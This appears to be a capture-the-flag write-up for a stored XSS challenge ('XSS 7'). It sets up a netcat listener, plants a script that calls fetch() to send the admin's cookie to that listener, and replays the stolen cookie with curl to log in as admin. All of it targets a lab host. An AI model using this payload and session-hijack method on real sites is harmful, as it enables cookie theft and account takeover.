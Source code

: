 # XSS 7.md

Previous solution doesn't work, as posting by admin is disallowed. So have to login as admin to see drafts.

Set up a listener:

```shell
nc -l -v challenge.localhost 20000
```

Craft a post to steal cookie:

```html
<script>
window.onload = async function() {
    try {
        await fetch("http://challenge.localhost:20000", {
            method: "GET",
            credentials: "include" 
        });
    } catch (error) {
        console.error("Error:", error);
    }
};
</script>
```

After getting the cookie, login:

```shell
curl -v --cookie "<stolen-cookie>"  http://challenge.localhost/
```
